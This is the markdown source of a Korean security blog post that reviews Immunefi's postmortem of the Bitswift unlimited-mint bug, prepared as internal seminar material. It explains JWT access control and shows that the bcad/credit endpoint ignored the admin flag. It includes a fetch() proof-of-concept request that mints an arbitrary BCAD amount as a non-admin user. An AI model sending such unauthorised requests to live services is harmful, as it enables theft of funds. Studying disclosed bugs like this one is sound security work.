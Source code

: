 ```yaml
---
title:  "Bitswift Unlimited Mint Bugfix Postmortem 리뷰"
excerpt: "Immunefi Bitswift Unlimited Mint Bugfix Postmortem 문서 학습 목적으로 살펴본 내용임"

author: Panda
categories:
  - Security
  - Blockchain
tags:
  - Web
  - Logical Bug
  - Medium Severity
  - Korean
#last_modified_at: 2021-09-23 18:06:00 +09:00
date: 2022-02-16 19:00:00 +09:00
lastmod: 2022-02-17 19:00:00 +09:00
sitemap :
changefreq : daily
priority : 1.0

# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정

#{% figure caption:"Le logo de **Jekyll** et son clin d'oeil à Robert Louis Stevenson"
#  %}
#  ![Le logo de Jekyll]({{"/assets/images_posts/2021-09-23-cve-2021-31956-part1/1.png"| #relative_url}})
#{% endfigure %}
---
```

# Executive Summary
이 문서는 Immunefi사의 기술 블로그중 [Bitswift Unlimited Mint Bugfix Postmortem](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9) 문서를 읽고 BEARS 팀내 기술 세미나 자료로 활용하기 위해 작성되었으며, 해당 블로그 내용 공유를 통해 Smart Contract내 취약점 유형을 학습하는데 중점을 두고 작성된 문서입니다.

# Background
## Bitswift(BITS)
* 캐나다 소재 블록체인 기술 기업 주관의 프로젝트(블록체인 네트워크)
  * 국내 회사 [블록체인랩스](https://infrablockchain.com/ko)와 사업 영역이 비슷하게 느껴짐
  * 블록체인랩스는 COOV와 같은 정부 과제를 블록체인기반 솔류션을 제공하는 것을 목표로함
* 기존 사업영역에 블록체인 기술을 제공하는 것이 주요 사업임
* 블록체인 네트워크는 2014년에 런칭됨
* BITS(Bitswift 토큰)은 Bitswift 블록체인과 Bitswift사에서 직접 제공하는 서비스 Bitswift 캐시(크립토 케이트웨이 서비스) 및 관련 제품에 활용됨
  * Bitswift Forging Pool(LZLZ)
  * Bitswift Cash : 다른 다양한 블록체인 네트워크에 접속할 수 있는 게이트웨이 서비스
  * NFTMagic ART : BITS를 지원하는 NFT 시장
  * Sigbro : Ignis, ARDR에 서명된 트랜젝션을 전송할 수 있는 모바일앱

# Introduction
* 2021.12.8.에 보안전문가 Immunefi에 버그 제보
* 제보한 버그는 BCAD 토큰을 무한히 민팅할 수 있고, 해당 토큰을 이용해 지금 liquid 풀에서 다른 토큰을 빼올 수 있음
* Bitswift사는 4,515달러를 보안전문가에게 지급하고 해당 취약점 패치
* 결론부터 이야기 하면 취약점이 너무 단순하기 때문에, 개발자의 실수라고 밖에 생각할 수 없는 그러한 취약점임

# Vulnerability
## Introduction to JWT
* JWT에 대해서는 추가적으로 기술 조사를 별도로 실시 예정(점진적으로 보완), [JSON Web Token관련 공격 블로그](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)도 확인하여 정리실시할 예정임
* JWT는 서버와 클라이언트(브라우저)간 신뢰할 수 있는 정보를 전달하는 목적으로 사용됨
* 아래 그림과 같이 사용자가 ID와 패스워드를 포스트(post) 프로토콜로 전달후, 인증이 성공적으로 통과하면 그림2와 같은 JWT 토큰을 받게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/post_request.png"| relative_url}})  |
|:--:| 
| 그림.1 ID, 패스워드 POST REQUEST |


| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_token.png"| relative_url}})  |
|:--:| 
| 그림.2 인증을 통과후 사용자가 받는 JWT 토큰 |

이 후에 사용자가 서비스를 접근할 때 해당 서비스 서버는 헤더의 JWT 속성을 보고 해당 사용자에 대한 서비스 접근 제어를 하게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_header.png"| relative_url}})  |
|:--:| 
| 그림.3 HTML 헤더내 JWT 토큰기반 접근 제어 |

결국 JWT 토큰은 인증 정보를 가지고 다는 것이 되며, JWT 토큰은 주로 프로트엔드 코드내 HTML5 표준에 정의되어 있는 `localstorage` 에 저장된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_localstorage.png"| relative_url}})  |
|:--:| 
| 그림.4 localstorage에 저장된 JWT 토큰 |

## Bitswift Issue
그럼, 다시 Bitswift 취약점으로 돌아가보자.  
Bitswift는 관리자와 일반 사용자를 구분하기 위해 JWT 토큰을 자기들 서비스에 도입하였다.
서비스 종단에서는 해당 서비스 요청자가 관리자 여부를 확인함으로써 기능을 제한하겠다는 의도로 도입한 것이다.  
그런데 정말 아쉽게도, bcad/credit의 서비스 종단에서는 어떠 권한 확인도 하지 않는다는 것이다. 즉 JWT 토큰을 도입해 놓고 실제로 사용을 하지 않은 것이다.  

```json
{
  “admin”: false,
  “aud”: [
    2625,
    “bitswift.cash”
  ],
  “exp”: 1639641831,
  “iat”: 1639638231,
  “iss”: “bitswift.cash”,
  “jti”: “5tpR-bagAJO4aerV8iFHN5CzVRf_zXdXGVRQjRPwbvU=”,
  “nbf”: 1639638231,
  “sub”: 2625,
  “username”: “immunefi”,
  “verified”: false
}
```

아래 코드는 BCAD내 사용자 인증정보에 대해서 확인하는 함수인데, 해당 사용자가 보유한 Token의 권한이  
admin인지 일반 사용자인지 여부는 관계 없이 해당 토큰이 정상적인 토큰이면, 통과하게 된다.  

```javascript
async confirmCreditSubmit(e) {
    e.preventDefault();
    const multiplier = new BigNumber(1000000);
    const userAmount = new BigNumber(this.state.amount).multipliedBy(multiplier);
    const res = await this.props.apiClient.BCADCredit({
      amount: userAmount.toNumber(),
      unique_message: this.props.user.unique_message,
    }, this.user.accessToken)
    if (res.success === true) {
      this.setState({
        modal: false,
        confirmModal: false,
      });
    } else {
      this.setState({
        error: `Failed to credit BCAD to the user${res.msg ? ‘: ‘ + res.msg : ‘’}`
      });
    }
 }
```

따라서 아래와 같은 취약점을 유발할 수 있는 POST 메세지를 전달하면, 인증을 통과하고 우리가 원하는 갯수만큼  
토큰을 생성(민팅)할 수 있다.

```javascript
let res = await fetch(‘https://bitswift.cash:8443/bcad/credit', {
    method: ‘POST’,
    mode: ‘cors’,
    headers: {
        ‘Content-Type’: ‘application/json’,
        ‘Authorization’: ‘Bearer ‘ + token
    },
    body: JSON.stringify({
      amount: 9999999999999999,
      unique_message: “9C83C69E98A7152693E3AB357649744765456614”, //use your account’s unique message
    }),
    redirect: ‘follow’,
    referrer: ‘no-referrer’,
});
res = await res.text();
console.log(res); //success, despite not being an admin
```

해당 취약점의 경우 Bitswfit사로 부터 $4500 밖에 못 받았는데, 실제적으로 토큰을 새로 생성후  
탈취하는 취약점을 못 찾았기 때문에 금액이 작게 책정된 것이 아닌가?라는 생각이 들었다.

# Lesson
* 아직 블록체인 관련 서비스를 살펴보면 기존 웹영역 PT(Pen-Testing)보다 적은 노력으로 취약점을 발견할 수 있는 기회가 있다.라는 생각이 드는 사례라고 생각합니다.
* 기존 웹서비를 생각하고 설마 이런 것 까지 취약점이 있을까? 라는 선입견을 버리고, 핵심 기능부분은 꼼곰하게 분석하면 정말 쉽게 취약점을 찾을 수 있을 것으로 판단이 됩니다.

# References
* Bitswift 관련 사이트
  *  [https://bitswift.io](https://bitswift.io)
  *  [https://bitswift.tech](https://bitswift.tech/)
  *  [https://bitswift.cash/](https://bitswift.cash/)
  *  [https://nftmagic.art/](https://nftmagic.art/)
  *  [https://bitswift.cash/explorer/blocks](https://bitswift.cash/explorer/blocks)
  *  [https://myaccount.bitswift.network/index.html](https://myaccount.bitswift.network/index.html)
* [https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9)
* [https://infrablockchain.com/ko](https://infrablockchain.com/ko)
* [Hacking JSON Web Token(JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)